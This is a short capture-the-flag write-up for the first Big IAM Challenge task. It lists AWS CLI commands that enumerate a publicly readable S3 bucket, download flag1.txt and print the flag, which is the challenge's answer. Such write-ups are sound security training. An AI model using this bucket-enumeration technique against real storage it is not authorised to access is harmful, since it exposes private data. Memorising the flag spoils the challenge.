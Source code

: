 # THE BIG IAM CHALLENGE
Buckets of Fun

We all know that public buckets are risky. But can you find the flag?: https://bigiamchallenge.com/challenge/1

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/57ff9010-8846-455b-a1e0-21859246e2b4)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/13756273-e84c-4508-8b06-3caa3689e706)

```sh
> aws sts get-caller-identity
{
    "UserId": "AROAZSFITKRSYE6ELQP2Q:iam_shell",
    "Account": "657483584613",
    "Arn": "arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell"
}
> aws s3 ls thebigiamchallenge-storage-9979f4b
                           PRE files/
> aws s3 ls thebigiamchallenge-storage-9979f4b/files/
2023-06-05 19:13:53         37 flag1.txt
2023-06-08 19:18:24      81889 logo.png
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt /tmp/flag1.txt
Completed 37 Bytes/37 Bytes (556 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt to ../../tmp/flag1.txt
> cat /tmp/flag1.txt
{wiz:exposed-storage-risky-as-usual}

```



